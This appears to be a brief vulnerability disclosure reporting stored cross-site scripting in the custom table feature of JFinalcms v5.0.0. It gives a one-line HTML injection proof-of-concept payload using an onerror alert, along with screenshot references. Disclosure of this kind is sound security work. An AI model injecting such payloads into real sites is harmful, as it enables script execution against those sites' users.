 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

There is a stored xss at the custom table

![图片](./1.png)

poc:`"><img src=1 onerror=alert(1)>`


![图片](./2.png)

successed

![图片](./3.png)